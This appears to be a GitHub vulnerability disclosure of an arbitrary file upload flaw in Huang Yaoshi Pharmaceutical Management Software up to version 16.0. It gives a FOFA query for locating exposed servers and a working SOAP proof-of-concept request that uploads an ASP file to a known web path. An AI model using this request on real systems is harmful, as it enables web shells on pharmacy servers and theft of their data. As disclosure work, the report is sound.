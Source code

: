 ## fofa
```
body="XSDService.asmx"
```

## product

 Huang Yaoshi Pharmaceutical Management Software

## Vendor of Product

https://product.11467.com/info/2149952.htm

## VERSION

 Huang Yaoshi Pharmaceutical Management Software <= 16.0

## Vulnerability Type

File Upload

## Description
Huang Yaoshi Pharmacy Management is a management software specially created for retail pharmacies. It integrates comprehensive purchase, sales and inventory management, member management, and GSP management. Its intuitive interface, simple operation, eliminates complexity, retains refinement, and is easier to use, helping you take a step forward in your career. "Huang Pharmacist" pharmaceutical management software UploadFile has arbitrary file uploading vulnerabilities.



## POC：
```
POST /XSDService.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/UploadFile"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <UploadFile xmlns="http://tempuri.org/">
      <filePath></filePath>
      <fileName>1.asp</fileName>
      <buffer>PCUgcmVzcG9uc2Uud3JpdGUoImhlbGxvIHdvcmxkIiklPg==</buffer>
      <Offset>1111</Offset>
    </UploadFile>
  </soap:Body>
</soap:Envelope>
```
![image](https://github.com/user-attachments/assets/2a0bd71d-3282-4c6d-8991-b5d0414a02ef)

Then you can find the uploaded file in the following directory of the website: /Upload2015/1.asp
![image](https://github.com/user-attachments/assets/023c6bdf-9b77-4997-bc2c-df016c5a3861)






